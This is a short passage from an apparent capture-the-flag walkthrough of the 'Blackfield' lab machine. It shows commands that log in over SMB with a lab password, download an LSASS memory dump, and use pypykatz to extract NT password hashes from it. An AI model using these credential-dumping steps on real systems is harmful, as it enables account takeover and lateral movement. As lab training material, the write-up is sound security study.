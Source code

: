 ```sh
smbclient.py audit2020:'H@CKTHEB0X#'@10.10.10.192
use forensic
cd memory_analysis
ls
get lsass.zip
exit
```

![screenshot](/assets/images/blackfield9.png)
### Retrieve NT Hashes
After unzipping lsass.zip we can use [Pypykatz](https://github.com/skelsec/pypykatz) on the extracted lsass.DMP file to retrieve NT hashes.

```sh
pipx install pypykatz
pypykatz lsa minidump lsass.DMP
```
